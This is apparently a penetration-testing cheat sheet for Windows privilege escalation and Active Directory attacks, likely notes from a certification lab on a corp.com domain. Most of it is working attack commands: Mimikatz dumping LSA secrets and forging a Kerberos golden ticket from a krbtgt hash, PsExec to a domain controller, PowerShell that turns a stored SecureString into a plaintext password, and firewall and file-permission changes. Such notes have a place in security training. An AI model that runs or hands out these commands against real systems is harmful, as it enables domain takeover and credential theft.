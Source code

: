 ```bash
icacls "C:\Windows\Tasks\file.log" /grant Everyone:F
```

Do the following for ssh keys:

```bash
icacls "..\Documents\sarah_ssh.txt" /reset
icacls "..\Documents\sarah_ssh.txt" /inheritance:r
icacls "..\Documents\sarah_ssh.txt" /grant:r "$($env:USERNAME):(R)"
```

#### WinPeas Messed up Color

This should fix it:

```bash
REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1 
```

#### Latest Good WinPeas release

"https://github.com/peass-ng/PEASS-ng/releases/tag/20240221-e5eff12e"

#### Open Port

```bash
New-NetFirewallRule -DisplayName "SSH" -Direction Inbound -Protocol TCP -LocalPort 22 -Action Allow
```

#### Privesccheck

It was recommended to use this in addition to winpeas, 'https://github.com/itm4n/PrivescCheck'.

#### Golden Ticket

```bash
mimikatz # privilege::debug
mimikatz # lsadump::lsa /patch
mimikatz # kerberos::purge
mimikatz # kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
mimikatz # misc::cmd # Launch a new command prompt
```

```bash
# Verify
C:\Tools\SysinternalsSuite>PsExec.exe \\dc1 cmd.exe
```

#### If You Find a Weird Hash

```bash
type automation.txt
01000000d08c9ddf0115d1118c7a00c04fc297eb0100000001e86ea0aa8c1e44ab231fbc46887c3a0000000002000000000003660000...

echo "01000000d08c9ddf0115d1118c7a00c0..." > cred.txt

$pw = Get-Content cred.txt | ConvertTo-SecureString
$bstr = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($pw)
$UnsecurePassword = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($bstr)
$UnsecurePassword
hHO_S9gff7ehXw
```


[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname